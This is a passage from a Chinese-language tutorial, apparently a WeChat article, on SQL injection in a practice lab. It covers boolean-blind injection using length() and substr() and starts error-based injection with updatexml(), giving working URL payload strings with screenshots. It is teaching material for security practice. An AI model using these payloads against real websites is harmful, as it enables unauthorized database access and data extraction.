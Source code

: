 ![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RvgAobKzOAQfAjRrwFeR7VBq1AZpTmFBJ1UTOw1qWfKYkUbqNXmzxxg/640?wx_fmt=png&from=appmsg "")  
  
2、**布尔注入**  
  
关键函数：**length()**、**substr()**  
  
布尔注入不会将结果回显，需要根据页面不同进行判断  
  
1）测试发现  
```
?id=1' and '1'='1
?id=1' and '1'='2
```  
  
  
响应不同  
，说明存在SQL注入漏洞，且为字符型。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4R694JeMchrUNn5bicwWcMAVib2icHzw5buBBxgaVMPe8WLHcfGqtbEJovg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RmncibaeiaeFxvWZ8XcAOaX3N8jHvoILYWuQfBF62pNBEUiaYRNzycb5nA/640?wx_fmt=png&from=appmsg "")  
  
2）利用length函数判断数据库的长度，当=8时，返回为真  
```
?id=1' and length(database())=8--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RbhEFtQ8KKAH8eicBuNIDhKQrMmnUCmGtXCbnz6icNLOoo2cZ5jMrnS3Q/640?wx_fmt=png&from=appmsg "")  
  
3）利用substr函数比较得出数据库名的第一个字符为‘s’，依次可以得到全部8个字符：security  
```
?id=1' and substr(database(),1,1)='s'--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RqY6ZQY0FJZ1ouHEFyTjOaX0cMoNJzTPjnx8S4aVDXJK7kDIzkG5JQw/640?wx_fmt=png&from=appmsg "")  
  
3、**报错注入**  
  
报错注入的情况可在页面上看到报错信息输出  
  
关键函数：  
updatexml()  
、  
floor()  
、  
extractvalue()  
  
1）测试发现  
```
?id=1"
```  
  
会将报错信息返回  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RcdGmOWaevvzU5EK0UA0j0eJlQcVly1uT3UOb5vrZmBJ2lxmW7VDJibQ/640?wx_fmt=png&from=appmsg "")  
  
2）利用updatexml函数获得数据库名  
```
?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```  
  